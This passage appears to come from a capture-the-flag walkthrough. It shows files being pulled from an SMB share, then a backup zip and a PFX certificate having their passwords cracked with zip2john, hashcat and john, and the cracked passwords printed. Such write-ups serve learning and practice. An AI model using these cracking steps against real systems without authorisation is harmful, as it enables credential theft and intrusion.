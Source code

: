 ```bash
  LAPS.x64.msi                        A  1118208  Mon Oct 25 16:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 16:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 16:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 16:57:44 2021

smb: \> prompt off
smb: \> mget *
getting file \Dev\winrm_backup.zip of size 2611 as Dev/winrm_backup.zip (23.0 KiloBytes/sec) (average 23.0 KiloBytes/sec)
getting file \HelpDesk\LAPS.x64.msi of size 1118208 as HelpDesk/LAPS.x64.msi (3627.9 KiloBytes/sec) (average 2656.7 KiloBytes/sec)
getting file \HelpDesk\LAPS_Datasheet.docx of size 104422 as HelpDesk/LAPS_Datasheet.docx (886.7 KiloBytes/sec) (average 2270.4 KiloBytes/sec)
getting file \HelpDesk\LAPS_OperationsGuide.docx of size 641378 as HelpDesk/LAPS_OperationsGuide.docx (963.6 KiloBytes/sec) (average 1548.7 KiloBytes/sec)
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as HelpDesk/LAPS_TechnicalSpecification.docx (507.0 KiloBytes/sec) (average 1438.0 KiloBytes/sec)
```

Before going through the LAPS files, we can try to brute force the zip. Remember to beautify the hash file so that it starts and ends with `$pkzip2$`.
```bash
➜  Dev unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password

➜  Dev /usr/sbin/zip2john winrm_backup.zip > zip.hash
➜  Dev vim zip.hash                                  
➜  Dev hashcat -a0 -m17210 zip.hash /usr/share/wordlists/rockyou.txt
[... snip ...]
$pkzip2$1*2*2*0*965* [... snip ...] *$/pkzip2$:supremelegacy
                                                 
Session..........: hashcat
Status...........: Cracked

➜  Dev unzip -P supremelegacy winrm_backup.zip 
Archive:  winrm_backup.zip
  inflating: legacyy_dev_auth.pfx
```

-------------

### Step 3
Try to crack the certificate (`.pfx`) password.
```bash
➜  Dev /usr/share/john/pfx2john.py legacyy_dev_auth.pfx | john --wordlist=/usr/share/wordlists/rockyou.txt /dev/stdin
[... snip ...]
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:01:06 DONE (2022-03-31 12:18) 0.01499g/s 48458p/s 48458c/s 48458C/s thuglife06..thug211
```
